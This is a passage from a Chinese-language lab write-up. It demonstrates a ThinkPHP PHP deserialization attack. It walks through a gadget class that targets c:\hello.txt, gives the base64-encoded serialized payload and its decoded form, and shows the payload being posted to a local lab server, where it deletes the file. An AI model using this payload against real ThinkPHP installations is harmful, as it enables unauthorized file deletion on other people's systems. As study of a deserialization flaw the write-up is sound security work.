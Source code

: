 >1. 首先是声明了 `namespace` 和 `use` ,表示该类位于 `think\process\pipes` 目录下，并使用了 `think\Process` 类
>2. 定义一个空的 `Pipes` 
>3. 定义了一个 `Windows` 类，继承自 `Pipes` 类
>4. 声明了一个私有属性 `$files`，用于存储要删除的文件列表
>5. 实现了 `__construct()` 构造方法，在构造函数中修改了 `$files` 属性的值，指定了要删除的文件 `c:\hello.txt`
>6. 这个类继承自 `Pipes` 父类，父类中可能实现了文件删除的方法
>7. 所以通过覆盖 `__construct()` 构造函数，可以实现实例化这个类时，自动指定要删除的文件
>8. 当该类的对象实例在程序结束时销毁，可能会触发文件删除操作
>9. 通过 `base64_encode()` 对序列化结果进行 `base64` 编码并打印，这个结果就是 `payload`
>
>这段代码通过继承和覆盖构造函数,实现了一个在对象销毁时自动删除指定文件的功能,相当于是一个便利的辅助类。

浏览器访问

>http://192.168.1.102/think/public/removefile.php

```
TzoyNzoidGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzIjoxOntzOjM0OiIAdGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzAGZpbGVzIjthOjE6e2k6MDtzOjEyOiJjOlxoZWxsby50eHQiO319
```

>得到 payload

使用 base64 解码验证

```
O:27:"think\process\pipes\Windows":1:{s:34:"think\process\pipes\Windowsfiles";a:1:{i:O;s:12:" c:\hello.txt";}}
```

浏览器访问

>http://192.168.1.102/think/public/

在 HackBar 提交 `Body`

```
key=TzoyNzoidGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzIjoxOntzOjM0OiIAdGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzAGZpbGVzIjthOjE6e2k6MDtzOjEyOiJjOlxoZWxsby50eHQiO319
```

查看 `c:\hello.txt` 文件，发现已经删除，此时页面变正常

利用链
